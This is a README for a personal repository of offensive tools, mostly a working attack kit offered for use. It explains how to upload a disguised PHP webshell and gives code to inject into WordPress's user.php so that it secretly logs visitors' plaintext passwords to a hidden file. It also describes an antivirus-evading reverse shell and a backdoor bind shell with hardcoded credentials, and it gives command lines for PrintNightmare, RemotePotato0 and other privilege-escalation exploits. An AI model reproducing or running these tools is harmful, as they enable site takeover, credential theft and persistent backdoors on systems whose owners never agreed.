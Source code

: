 # JustRepository

Testing project

## Getting Started

These are repository for tools and code I modify and compile for fun (?). Note that "use this for educational purposes only".

### Webshell.php

simple webshell that protected with parameter.
Upload shell. rename it with ".page.backup.php". 
Call it with your own parameter:
```
example.com/uploads/.page.backup.php?dxnboy=4343
```
Modified from:

* **Flozz** - *PHP shell* - [P0wny Shell](https://github.com/flozz/p0wny-shell)

### Inject Wordpress

Inject user.php in wordpress to record credentials that login (kind of keylogger). Required user priviledge that can write to wordpress directory. 
edit file wordpress/wp-include/user.php. For real world usage there will be many login attemp if login page is exposed by default because people using bots to bruteforce, means that .txt file logger will has a lot of false negative and large data

before
```
if ( ! empty( $credentials['remember'] ) ) {
                $credentials['remember'] = true;
} else {
                $credentials['remember'] = false;
}
```

after inject
```
if ( ! empty( $credentials['remember'] ) ) {
                $credentials['remember'] = true;
                date_default_timezone_set('Asia/Jakarta');
                $credz = date('Y-m-d H:i:s') . " || IP: " . get_client_ip() . " || Username: " . $_POST['log'] . " && Password: " . $_POST['pwd'];
                file_put_contents('wp-content/uploads/.page.txt', base64_encode($credz).PHP_EOL, FILE_APPEND);
} else {
                $credentials['remember'] = false;
                date_default_timezone_set('Asia/Jakarta');
                $credz = date('Y-m-d H:i:s') . " || IP: " . get_client_ip() . " || Username: " . $_POST['log'] . " && Password: " . $_POST['pwd'];
                file_put_contents('wp-content/uploads/.page.txt', base64_encode($credz).PHP_EOL, FILE_APPEND);
}
```

Encoded with base64. call it in: and decode it with base64
```
wordpress/wp-content/uploads/.page.txt
```

### Reverse shell Evade Defender AV
In case nc.exe blocked or need single command line reverse shell on limited RCE or single click reverse shell. Using python 2.7 (os,socket,subprocess,threading) converted in exe binary spawn \windows\system32\cmd. Evade by encrypt with base64 and simple print argument. Catch with ncat for rev and meterpreter session for mrev
```
.\rev444
.\mrev4444
```
```
Usage: sel <target ip> <Port #>
.\sel 10.10.14.2 4141
```
### Awesome Backdoor Windows Bind Shell
Windows compiled x64 python exe bindshell Modified from:
* **NullByte** - *Windows Python Bind Shell* - [Python Bind Shell](https://null-byte.wonderhowto.com/how-to/create-bind-shell-python-0163951/)

bind-dxntboy-8282.exe has green status from virus total and can be run on updated Win 10 Enterprise (at least until today I compile). Bind to port 8282, USER:dxntboy, PASS:pass and ready to go. Default pipe from script will bind up to 5 connection. Will compile in stealth mode (no cmd pop up and running in background) if I has to use in real world and will mutate encoding base64 using tool from neetspooky base64 mutate. Run bind-dxntboy-8282.exe file and connect via ncat
```
nc <target> 8282
```

### SharpPrintNightmare.exe

* **cube0x0** - *CVE-2021-1675* - [SharpPrintNightmare](https://github.com/cube0x0/CVE-2021-1675)
```
#LPE
C:\SharpPrintNightmare.exe C:\rev.dll

#RCE using existing context
SharpPrintNightmare.exe '\\192.168.1.215\smb\addCube.dll' '\\192.168.1.20'

#RCE using runas /netonly
SharpPrintNightmare.exe '\\192.168.1.215\smb\addCube.dll' '\\192.168.1.10' hackit.local domain_user Pass123
 ```

### watch.sh & procmon.sh
In case we didn't get fully tty shell, watch.sh similar to watch and procmon.sh similar to pspy. Added time argument so script will stop in spesific time, by default script will stop at 300 seconds. 
```
./watch.sh <directory (default=.)> <time (default=300)>
./watch.sh /tmp/ 60
./watch.sh /opt/script/tmp/
./procmon.sh <time (default=300)>
```
### RemotePotato0.exe

* **antonioCoco** - *potato variant* - [RemotePotato0](https://github.com/antonioCoco/RemotePotato0)
```
#user session must exist
query user
.\RemotePotato0.exe -m 0 -r 10.0.0.20 -x 10.0.0.20 -p 9999 -s 1

#try different module
RemotePotato0.exe -m 1 -l 9997 -r 10.0.0.20
RemotePotato0.exe -m 2 -s 1
RemotePotato0.exe -m 3 -l 9997
 ```
 
 ### SeRestoreAbuse.exe

* **xct** - *Abuse SeRestorePriviledge* - [SeRestoreAbuse](https://github.com/xct/SeRestoreAbuse)
```
SeRestoreAbuse.exe "cmd /c ..."
SeRestoreAbuse.exe "cmd /c C:\temp\rshell.exe"
 ```

### InstallerFileTakeOver.exe x64 version

* **klinix5** - *CVE-2021-41379* - [InstallerFileTakeOver](https://github.com/klinix5/InstallerFileTakeOver)
```
InstallerFileTakeOver.exe <file-to-takeover>
 ```
